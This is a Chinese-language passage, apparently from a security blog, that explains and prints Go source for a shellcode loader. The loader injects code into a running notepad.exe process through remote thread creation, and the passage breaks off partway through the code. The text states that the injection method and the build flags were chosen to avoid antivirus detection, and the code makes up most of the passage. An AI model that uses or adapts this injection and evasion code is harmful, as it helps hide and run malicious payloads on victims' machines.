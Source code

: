 说一下大体思路，shellcode 加载大体分 **Loader 加载**、**线程注入加载**等方式，这里使用的**线程注入**的方式执行 shellcode，注入到某个进程中执行，而不是单独 Loader 加载。之所以使用这种查杀率比较**高**的方法，是因为可以配合 **-race** 选项来编译。如果让 Loader 单独运行，不加 “**-H=windowsgui**” 选项的话呢，那就会出现一个 Dos 窗口持续在前台运行，但是加了 **-H** 呢，正如前面提到的，这个是杀软的主要查杀特征，加了的话被查杀的概率大的离谱。所以就采用了线程注入方式来配合执行。

16 行的 dwProcessId = 35052 是我开启的一个 **notepad.exe** 的 pid。

```
package main

import (
  "encoding/hex"
  "fmt"
  "log"
  "syscall"
  "unsafe"
)

const (
  PROCESS_ALL_ACCESS     = 0x1F0FFF //OpenProcess中的第一个参数，获取最大权限
  MEM_COMMIT             = 0x1000
  MEM_RESERVE            = 0x2000
  PAGE_EXECUTE_READWRITE = 0x40
  dwProcessId            = 35052 //修改为某个进程的PID
)

var (
  kernel32             = syscall.NewLazyDLL("kernel32.dll")
  OpenProcess          = kernel32.NewProc("OpenProcess")
  VirtualAllocEx       = kernel32.NewProc("VirtualAllocEx")
  WriteProcessMemory   = kernel32.NewProc("WriteProcessMemory")
  CreateRemoteThreadEx = kernel32.NewProc("CreateRemoteThreadEx")
  VirtualProtectEx     = kernel32.NewProc("VirtualProtectEx")
)

func GetOpenProcess(dwProcessId int) uintptr {
  pHandle, _, _ := OpenProcess.Call(uintptr(PROCESS_ALL_ACCESS), uintptr(0), uintptr(dwProcessId))
  return pHandle
}

func injectProcessAndEx(pHandle uintptr, shellcode []byte) {
  Protect := PAGE_EXECUTE_READWRITE

  addr, _, err := VirtualAllocEx.Call(uintptr(pHandle), 0, uintptr(len(shellcode)), MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE)
  if err != nil && err.Error() != "The operation completed successfully." {
    log.Fatal(fmt.Sprintf("[!]Error calling VirtualAlloc:\r\n%s", err.Error()))
  }

  WriteProcessMemory.Call(uintptr(pHandle), addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))

  VirtualProtectEx.Call(uintptr(pHandle), addr, uintptr(len(shellcode)), PAGE_EXECUTE_READWRITE, uintptr(unsafe.Pointer(&Protect)))

  CreateRemoteThreadEx.Call(uintptr(pHandle), 0, 0, addr, 0, 0, 0)
}

func main() {
  pHandle := GetOpenProcess(dwProcessId)

  ShellCodeHex := "fc4883e4041505b345c505a58353428505e00000000"
  //把字符串转为byte
  shellcode, err := hex.DecodeString(ShellCodeHex)
  if err != nil {
    log.Fatalln()
```